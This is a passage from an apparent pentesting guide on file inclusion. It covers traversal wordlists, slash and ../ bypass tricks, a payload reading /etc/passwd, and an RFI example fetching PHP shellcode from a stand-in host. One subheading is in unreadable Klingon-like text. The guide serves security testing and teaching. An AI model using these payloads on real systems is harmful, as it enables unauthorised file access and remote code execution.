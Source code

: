 **Mixing several \*nix LFI lists and adding more paths I have created this one:**

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt" %}

Try also to change `/` for `\`\
Try also to add `../../../../../`

A list that uses several techniques to find the file /etc/password (to check if the vulnerability exists) can be found [here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-nix.txt)

### **Windows**

Merge of different wordlists:

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt" %}

Try also to change `/` for `\`\
Try also to remove `C:/` and add `../../../../../`

A list that uses several techniques to find the file /boot.ini (to check if the vulnerability exists) can be found [here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-win.txt)

### **OS X**

Check the LFI list of linux.

## Basic LFI and bypasses

All the examples are for Local File Inclusion but could be applied to Remote File Inclusion also (page=[http://myserver.com/phpshellcode.txt\\](http://myserver.com/phpshellcode.txt\)/).
```
http://example.com/index.php?page=../../../etc/passwd
```
### qImHa' 'ej qo'lu'chugh 'e' yIqImHa' 'ej 'e' yIqo'lu'chugh

#### Description

When performing file inclusion attacks, it is common to encounter input sanitization mechanisms that attempt to prevent directory traversal attacks by removing traversal sequences such as "../" or "..\". However, these sanitization mechanisms are often implemented in a non-recursive manner, which means that they only remove one occurrence of a traversal sequence at a time. This can be exploited by an attacker to bypass the sanitization and successfully perform a directory traversal attack.

#### Impact

By exploiting this vulnerability, an attacker can access sensitive files or directories outside of the intended directory structure. This can lead to unauthorized access to confidential information, remote code execution, or other security breaches depending on the specific context and permissions of the vulnerable application.
